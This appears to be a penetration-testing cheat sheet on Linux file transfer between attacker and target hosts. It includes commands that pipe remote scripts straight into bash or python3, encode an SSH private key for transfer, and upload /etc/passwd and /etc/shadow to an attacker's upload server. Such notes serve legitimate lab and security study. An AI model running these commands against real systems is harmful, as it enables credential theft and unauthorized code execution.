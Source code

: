 ## delete


# OPEN SERVER:
## PYTHON:
- `python3 -m http.server 1234` local machine

# WGET
- `wget http://10.10.14.1:8000/linenum.sh` target machine
- `curl http://10.10.14.1:8000/linenum.sh -o` linenum.sh

# SCP
- `scp linenum.sh user@remotehost:/tmp/linenum.sh` local machine

# Attack to Target
## Base64 Encoding / Decoding
**Encode SSH Key to Base64**
```bash
$ cat id_rsa |base64 -w 0;echo`
```

**Decode the File**
```bash
$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`
```

**Confirm the MD5 Hashes Match**
```bash
$ md5sum id_rsa
```

## Web Downloads with Wget and cURL
**Download a File Using wget**
```bash
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
```

**Download a File Using cURL**
```bash
$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
```

## Fileless Attacks Using Linux
**Fileless Download with cURL**
```bash
$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`
```

**Fileless Download with wget**
```bash
$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`
```
## Download with Bash (/dev/tcp)
**Connect to the Target Webserver**
```bash
$ exec 3<>/dev/tcp/10.10.10.32/80`
```

**HTTP GET Request**
```bash
$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
```

**Print the Response**
```bash
$ cat <&3`
```

## SSH Downloads
SSH (or Secure Shell) is a protocol that allows secure access to remote computers. SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol.

SCP (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.

SCP is very similar to copy or cp, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.

**Enabling the SSH Server**
```bash
$ sudo systemctl enable ssh`
```

**Starting the SSH Server**
```bash
$ sudo systemctl start ssh`
```

**Checking for SSH Listening Port**
```bash
$ netstat -lnpt`
```

**Downloading Files Using SCP**
```bash
$ scp plaintext@192.168.49.128:/root/myroot.txt . `
```

`Note: You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.`

# Target to Attack
## Web Upload
**Attack - Start Web Server**
```bash
$ sudo python3 -m pip install --user uploadserver`
```

**Attack - Create a Self-Signed Certificate**
```bash
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
```

`The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.`

**Attack - Start Web Server**
```bash
$ mkdir https && cd https
$ sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```

**Target - Upload Multiple Files**
```bash
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Alternative Web File Transfer Method
**Target - Creating a Web Server with Python3**
```bash
$ python3 -m http.server
```

**Target - Creating a Web Server with Python2.7**
```bash
$ python2.7 -m SimpleHTTPServer
```

**Target - Creating a Web Server with PHP**
```bash
$ php -S 0.0.0.0:8000
```

**Target - Creating a Web Server with Ruby**
```bash
$ ruby -run -ehttpd . -p8000
```

**Download the File from the Target Machine onto the Attack**
```bash
$ wget 192.168.49.128:8000/filetotransfer.txt
```

## SCP Upload
**File Upload using SCP**
```bash
$ scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```

```bash
scp -P 3520 usuario@192.168.49.128:/home/usuario/arquivo.txt .
```
